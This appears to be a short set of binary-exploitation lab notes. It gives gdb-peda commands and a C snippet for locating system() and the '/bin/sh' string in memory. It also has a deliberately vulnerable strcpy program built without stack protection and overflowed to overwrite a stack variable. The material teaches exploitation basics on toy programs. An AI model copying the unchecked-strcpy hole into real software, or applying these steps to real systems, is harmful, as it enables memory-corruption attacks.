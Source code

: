 #### Find system address

* source /usr/share/gdb-peda/peda.py
* r
* print system
* find "/bin/sh" all
* x/s *((char **)environ)

* break main
* clear

````
// gcc -m32 -std=c99 tst.c
//

#include <stdio.h>
#include <string.h>

int main(void)
{
    char s[] = "/bin/sh";
    char *p = (char *) 0xbffff000;

    // Get system addr from gdb
    p = (char *)0xf7e0c980;

    while (memcmp(++p, s, sizeof s));

    printf("%s\n", p);
    printf("%p\n", p);
}
````


</br>

## Simple buffer overflow : overwrite a stack variable

````
$ cat buffer_01.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char  tst=0;
  char name[10];

  strcpy(name, argv[1]);
  printf("Hello %s\n", name);
  if (tst=='Z') printf("Pwnd");
  return 0;
}
$ gcc -fno-stack-protector buffer_01.c -o buffer_01
$ buffer_01 ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
````
